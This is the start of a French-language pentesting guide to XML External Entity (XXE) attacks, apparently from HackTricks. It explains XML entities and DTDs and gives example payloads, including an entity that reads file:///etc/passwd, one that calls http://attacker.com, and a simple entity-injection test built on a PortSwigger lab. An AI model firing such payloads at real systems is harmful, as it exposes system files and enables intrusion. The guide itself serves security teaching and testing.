 # XXE - XEE - XML External Entity

{{#include ../banners/hacktricks-training.md}}

## XML Basics

XML est un langage de balisage conçu pour le stockage et le transport de données, avec une structure flexible qui permet l'utilisation de balises nommées de manière descriptive. Il diffère de HTML en n'étant pas limité à un ensemble de balises prédéfinies. L'importance de XML a diminué avec l'essor de JSON, malgré son rôle initial dans la technologie AJAX.

- **Représentation des données par le biais d'entités** : Les entités dans XML permettent la représentation de données, y compris des caractères spéciaux comme `&lt;` et `&gt;`, qui correspondent à `<` et `>` pour éviter les conflits avec le système de balises XML.
- **Définition des éléments XML** : XML permet de définir des types d'éléments, décrivant comment les éléments doivent être structurés et quel contenu ils peuvent contenir, allant de tout type de contenu à des éléments enfants spécifiques.
- **Définition de type de document (DTD)** : Les DTD sont cruciaux dans XML pour définir la structure du document et les types de données qu'il peut contenir. Ils peuvent être internes, externes ou une combinaison, guidant la façon dont les documents sont formatés et validés.
- **Entités personnalisées et externes** : XML prend en charge la création d'entités personnalisées au sein d'un DTD pour une représentation flexible des données. Les entités externes, définies avec une URL, soulèvent des préoccupations de sécurité, en particulier dans le contexte des attaques XML External Entity (XXE), qui exploitent la façon dont les analyseurs XML gèrent les sources de données externes : `<!DOCTYPE foo [ <!ENTITY myentity "value" > ]>`
- **Détection XXE avec des entités de paramètre** : Pour détecter les vulnérabilités XXE, surtout lorsque les méthodes conventionnelles échouent en raison des mesures de sécurité des analyseurs, des entités de paramètre XML peuvent être utilisées. Ces entités permettent des techniques de détection hors bande, telles que le déclenchement de requêtes DNS ou HTTP vers un domaine contrôlé, pour confirmer la vulnérabilité.
- `<!DOCTYPE foo [ <!ENTITY ext SYSTEM "file:///etc/passwd" > ]>`
- `<!DOCTYPE foo [ <!ENTITY ext SYSTEM "http://attacker.com" > ]>`

## Main attacks

[**La plupart de ces attaques ont été testées en utilisant les incroyables laboratoires XEE de Portswiggers : https://portswigger.net/web-security/xxe**](https://portswigger.net/web-security/xxe)

### New Entity test

Dans cette attaque, je vais tester si une simple déclaration de nouvelle ENTITÉ fonctionne.
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY toreplace "3"> ]>
<stockCheck>
<productId>&toreplace;</productId>
<storeId>1</storeId>
</stockCheck>
```
![](<../images/image (870).png>)
